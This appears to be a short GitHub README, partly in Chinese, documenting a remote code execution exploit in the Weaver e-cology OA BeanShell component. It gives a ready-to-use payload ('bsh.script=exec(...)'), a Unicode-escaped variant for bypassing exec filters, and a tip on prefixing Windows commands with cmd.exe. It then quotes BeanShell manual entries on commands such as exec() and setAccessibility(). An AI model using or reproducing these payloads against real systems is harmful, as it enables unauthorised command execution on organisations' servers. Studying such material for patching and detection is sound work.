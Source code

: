 # 泛微e-cology OA Beanshell组件远程代码执行

![](./set.jpg)
![](./whoami.jpg)


## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```


## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg



